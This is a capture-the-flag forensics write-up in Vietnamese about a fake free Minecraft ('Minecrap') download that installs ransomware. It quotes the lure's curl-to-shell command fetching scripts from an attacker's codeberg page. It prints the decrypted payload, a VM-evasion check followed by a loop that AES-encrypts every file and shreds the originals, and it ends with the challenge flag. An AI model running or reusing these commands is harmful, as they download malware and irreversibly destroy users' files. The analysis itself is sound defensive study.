Free Minecrap
đề bài: I really want to play Minecrap, but I don't have any money, I heard there's a free version online. What can go wrong?
theo đề bài này thì rất có khả năng user đã tải game lậu về sau đó ăn malware 
ta tìm trong cool_user thì thấy có 1 file minecrap và ransome_note với nội dung là hãy chuyển tiền vào tài khoản để mở khóa file vậy thì khả năng đây là một cuộc tấn công ransomware rồi 

ở đây có khá nhiều file bị mã hóa mà folder kia có tên secret nên khả năng chỗ này sẽ chứa flag


nhiệm vụ đã được hình thành khá rõ ta sẽ tìm hiểu cách con malware này thâm nhập và giải mã file này nhằm tìm ra flag

đầu tiên ta sẽ tìm xem con ransom này thâm nhập vào đây bằng cách nào với việc user dowload thẳng về máy nên khả năng ta sẽ tìm thông qua lịch sử dowload, ở đây ta biết được rằng user đang dùng trình duyệt firefox
dựa vào timestamp ta thấy ransomenote được tạo vào khoản 04:53:52 và cái file secret cũng thế vì vậy ta sẽ xem của profile này trước

ta sẽ mở places.sqlite vì đây là nơi chứa lịch sử duyệt web của profile

ở đây ta thấy user đã search cách tải minecraft free trên google và youtube sau đó bị lừa nhấp vào link 
```
https://evil-guy-on-the-internet.codeberg.page/
```

đây là 1 trang web có thể tải minecrap miễn phí về

ở đây trang web kêu nạn nhân là hãy dùng lệnh 
```
curl -s "https://codeberg.org/evil-guy-on-the-internet/pages/raw/branch/main/file/download-minecrap.sh" | sh
```
để tải file về, lệnh này muốn nạn nhân tải script sau đó đưa vào shell để chạy luôn vì vậy ở đây ta sẽ dùng một lệnh khác chỉ tải script về và đọc chứ ko chạy
```
curl -L "https://codeberg.org/evil-guy-on-the-internet/pages/raw/branch/main/file/download-minecrap.sh" -o download-minecrap.sh
cat download-minecrap.sh
```

ta thấy trong lệnh này nó lại curl 1 file .sh khác nữa nó là downloader.sh nghĩa là khi user dùng lệnh để down và chạy thì minecrap này sẽ tự động down 1 file downloader.sh khác
ta tiếp tục dùng lệnh tương tự như trên mà thay link thôi

ở đây ta thấy được có 1 cái aes key, và nó lại tiếp tục tải 1 file decrypter.sh về
ta tiếp tục dùng lệnh như cũ và xem thử trong decrypter có gì ta thấy rằng nó đã tạo ra key và iv từ cái aes key=nowsyourchancetobeabigshot key=32 kí tự đầu và iv=32 kí tự sau sau đó nó curl 1 file là random.sh về

ransome.sh này sau khi được tải về nó sẽ được chuyển về dạng hex sau đó được mã hóa aes-128 bằng key vừa này ta tìm được sau đó chạy scrypt.
ta curl file này về và lưu lại là ransom.hex cho dễ nhớ

mở file lên xem thử thì đây là mớ hex bị mã hóa, giờ ta dùng scrypt để decrypt ngược lại thôi key đồ có hết rồi
ta sẽ thử decrypt cái ransome kia xem nó có gì bên trong
```
AES_KEY="nowsyourchancetobeabigshot"

SEED="$(printf "$AES_KEY" | sha256sum | cut -d ' ' -f1)"
KEY="$(printf "$SEED" | cut -c 1-32)"
IV="$(printf "$SEED" | cut -c 33-64)"

echo "KEY=$KEY"
echo "IV=$IV"

xxd -r -p ransom.hex > ransom.enc

openssl enc -d -aes-128-cbc \
  -K "$KEY" \
  -iv "$IV" \
  -in ransom.enc \
  -out ransom_decrypted.sh

cat ransom_decrypted.sh
```

nó trả ra là
```
KEY=486fd2365fa54a6884f4e8dc363d0158
IV=4e221c81c4123e2021105b19cede1319
#!/usr/bin/env sh

fail() {
        echo "There is no free minecrap"
        exit
}

if grep -qE '^(flags|Features).*hypervisor' /proc/cpuinfo 2>/dev/null; then
        :
else
        # 2. DMI vendor / product name
        for f in \
                /sys/class/dmi/id/sys_vendor \
                /sys/class/dmi/id/product_name \
                /sys/class/dmi/id/board_vendor
        do
                [ -r "$f" ] || continue
                case "$(cat "$f")" in
                        *QEMU*|*KVM*|*VMware*|*VirtualBox*|*Xen*|*Microsoft*)
                                exit 0
                                ;;
                esac
        done
        fail
fi

find . -path '*/.*' -prune -o ! -name '*.naoyacrypted' -type f -print | while IFS= read -r i; do
        openssl aes-128-cbc -e -in "$i" -K "$KEY_R" -iv "$IV_R" | xxd -p > "$i.naoyacrypted"
        shred -zu "$i"
done
```
ở đoạn này
```
find . -path '*/.*' -prune -o ! -name '*.naoyacrypted' -type f -print | while IFS= read -r i; do
        openssl aes-128-cbc -e -in "$i" -K "$KEY_R" -iv "$IV_R" | xxd -p > "$i.naoyacrypted"
        shred -zu "$i"
done
```
nó tìm các file và in ra path của file, gán với biến i rồi mã hóa với KEY_R và $IV_R rồi chuyển thành đuôi .naoyacrypted 

giải mã
ở decrypter.sh nó có 1 đoạn
```
SEED_R="$(printf "$USER-$(hostname)" | sha256sum)"
export KEY_R="$(printf $SEED_R | cut -c 1-32)"
export IV_R="$(printf $SEED_R | cut -c 33-64)"
```
vậy là ta đã có key giải mã nó sẽ là 32 hex đầu là KEY_R còn 32 hex cuối là IV_R của SEED_R là user-hostname bị băm bằng sha256sum

ở đây ta tìm được host name là cool_user-my_cool_computer
giờ có rồi thì giải mã thôi
```
SEED="$(printf 'cool_user-my_cool_computer' | sha256sum | cut -d ' ' -f1)"
KEY="$(printf "$SEED" | cut -c 1-32)"
IV="$(printf "$SEED" | cut -c 33-64)"

xxd -r -p my-beautiful-drawing.png.naoyacrypted > encrypted.bin

openssl aes-128-cbc -d \
  -in encrypted.bin \
  -out my-beautiful-drawing.png \
  -K "$KEY" \
  -iv "$IV"
```

ở đây có 1 file trong thư mục very secret nên khả năng đây là nơi chứa flag
sau khi giải mã thì kết quả đây

->flag W1{ngtrieutien}
